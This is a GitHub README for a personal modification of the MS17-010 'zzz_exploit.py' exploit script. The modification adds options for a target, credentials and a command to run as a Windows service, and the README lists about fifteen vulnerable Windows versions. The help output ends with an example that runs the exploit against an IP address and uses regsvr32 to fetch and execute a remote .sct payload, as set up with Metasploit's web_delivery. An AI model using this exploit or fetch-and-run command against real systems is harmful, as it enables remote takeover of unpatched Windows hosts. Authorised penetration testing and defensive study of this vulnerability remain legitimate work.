 # MS17-010 zzz_exploit.py modifications
All credit goes to Worawit: https://github.com/worawit/MS17-010/

This is my personal enhancement to zzz_exploit.py. Added functionality to dynamically pass users, passwords and commands to execute within a service.

This is also heavily inspired by Korey McKinley: https://lmgsecurity.com/manually-exploiting-ms17-010/

Full credit goes to Worawit/Sleepya and Korey McKinley!

Best usage, and what I tested it with, is using the web_delivery module in metasploit. With the generated command, pass it into -c in quotes. This is also what Korey showed in his article!

## Help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```
